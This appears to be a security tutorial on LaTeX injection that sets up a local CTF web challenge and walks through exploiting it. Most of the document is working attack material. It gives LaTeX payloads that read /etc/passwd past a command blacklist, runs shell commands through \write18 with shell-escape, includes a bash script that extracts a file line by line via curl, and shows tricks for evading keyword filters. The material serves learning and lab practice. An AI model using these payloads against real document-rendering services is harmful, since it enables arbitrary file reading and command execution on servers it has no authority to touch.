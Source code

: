 **LaTeX injections** are a type of attack that exploits vulnerabilities in web applications that allow users to enter *text formatted* in LaTeX. LaTeX is a text composition system commonly used in academic and scientific writing.

LaTeX injection attacks occur when an attacker enters malicious LaTeX code into a text input field that is then processed in a web application. The LaTeX code can be designed to exploit vulnerabilities in the application and *execute malicious code* on the server.

An example of a LaTeX injection could be an attack that exploits the ability of LaTeX to include graphics and files in a web application. An attacker could send LaTeX code that includes a link to a malicious file, such as a virus or Trojan, that could infect the server or network systems.

To prevent LaTeX injections, web applications must properly validate and clean up incoming data before processing it into LaTeX. This includes removing special characters and limiting the commands that can be executed in LaTeX.

It is also important that web applications are run with minimum privileges on the network and that application activities are regularly monitored to detect possible injections. In addition, education about security in the use of LaTeX and how to prevent the introduction of malicious code should be encouraged.

# Example

For this example we must first download the following utilities:

```bash
apt install texlive-full -y
apt install zathura latexmk rubber -y
apt install poppler-utils
```

----
> Optionally we can select *zathura* as default PDF previewer:
> *xdg-mime query default application/pdf*
> *xdg-mime default zathura.desktop application/pdf*
----

Now we must go to */var/www/html* and do the following:

```bash
svn checkout https://github.com/internetwache/Internetwache-CTF-2016/trunk/tasks/web90/code
mv code/* .
rm -rf code
mv config.php.sample config.php

# Without this we would not have write permission
chown www-data:www-data -R *
service apache2 start
```

Now we can test if the following command works:

```latex
% To try to open and read a file, but it is sanitized
\input{/etc/passwd}
```

If we open the source code of *ajax.php* we see that both the *input* and *include* commands are blacklisted so we cannot use them. However, it is using the *pdflatex* command together with *--shell-escape* and that is not a very good idea, since if we can get in here we will be able to execute commands without any kind of limit.

Even if you are blocking the *input* and *include* commands there are other ways to read files:

```latex
% With this, we can read the first line of a file
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file

% With this, the second one
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\read\file to\line
\text{\line}
\closein\file

% With this, the third one
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\read\file to\line
\read\file to\line
\text{\line}
\closein\file

% We could use this to read multiple lines, but it is not a very good idea since there are too many characters that could cause LaTex to fail
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

As we have seen, the above command to read multiple lines is not a good idea, however, we can parse the *LaTex* conversion request with **BurpSuite**. We find that it sends the following data when executing the first example (read the first line of a file):

```
content=%5Cnewread%5Cfile%0A%5Copenin%5Cfile%3D%2Fetc%2Fpasswd%0A%5Cread%5Cfile+to%5Cline%0A%5Ctext%7B%5Cline%7D%0A%5Cclosein%5Cfile&template=blank
```

We see that it is url-encoded, but we can url-encode it better by replacing *spaces* with *%20* and line breaks with *%0A*:

```
content=\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file&template=blank

content=\newread\file%0A\openin\file=/etc/passwd%0A\read\file%20to\line%0A\text{\line}%0A\closein\file&template=blank
```

Now we can create a script in *Bash* to read the file line by line and if it does not interpret any letter, it will not show that line to us:

```bash
#!/bin/bash

# Global variables
declare -r main_url="http://localhost/ajax.php"
filename=$1

if [ $1 ]; then
    read_file_to_line="%0A\read\file%20to\line"
    for i in $(seq 1 100); do
	    # We apply -s parameter because we want to hide curl's verbose and -d is the data we want to send
	    # We apply -i in grep parameter because we want to make it case insensitive
        file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_file_to_line%0A\text{\line}%0A\closein\file&template=blank" | grep -i download | awk 'NF{print $NF}')

        if [ $file_to_download ]; then
            wget $file_to_download &>/dev/null
            # We keep the last argument with awk
            file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
            pdftotext $file_to_convert
            file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
            rm $file_to_convert
            cat $file_to_read | head -n 1
            rm $file_to_read
            read_file_to_line+="%0A\read\file%20to\line"
        else
            read_file_to_line+="%0A\read\file%20to\line"
        fi
    done
else
    echo -e "\n[!] Usage: $0 /etc/passwd\n\n"
fi
```

We can execute commands as follows within the *LaTex* editor:

```latex
% With this option the result will be shown in the LaTex stderr, because it will give error when compiling
\immediate\write18{id}

% With this option we can export it to an output so we don't have to read it in the error, and then read it with the command to read a line
\immediate\write18{id > output}
\newread\file
\openin\file=output
\read\file to\line
\text{\line}
\closein\file
```

If we do a subdirectory scan with *gobuster* we will see the *compile* directory, if we put the command that I am going to show below, even if the compiler crashes, we will get a file with the complete desired output inside:

```latex
\immediate\write18{cat /etc/passwd > output.txt}
```

Returning to the case of the *input* command, even if it is not blacklisted, it can give us errors with the special characters, so we could play with the *immediate* command to convert it before to *base64*:

```latex
\immediate\write18{cat /etc/passwd | base64 > output}
\input{output}
```

If we copy the whole string in *base64* and save it in a *data* file, remove the line breaks and convert it to plain text, we will have the whole document without conflicts:

```bash
cat data | tr -d '\n' | base64 -d; echo
```

If for example the word *testing* is blacklisted, we could put it separately and then put it together to bypass it:

```latex
\def\first{test}
\def\second{ing}
\first\second
```
